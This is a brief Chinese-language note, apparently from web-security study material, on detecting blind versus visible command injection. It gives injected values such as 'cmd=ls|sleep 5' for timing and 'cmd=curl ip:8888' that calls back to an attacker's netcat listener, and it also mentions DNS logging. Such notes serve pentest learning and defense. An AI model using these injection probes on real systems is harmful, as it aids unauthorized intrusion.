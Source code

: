 # 判断有/无回显

**方法1.**
 根据代码逻辑

**方法2.**
 根据延时`cmd=ls|sleep 5`

**方法3.**
 HTTP请求（ping命令不会产生http请求）
 自己公网服务器使用`nc -lp 8888`来开起监听
 目标服务器`cmd=curl ip:8888`

**方法4.**
 DNS请求（dnslog）

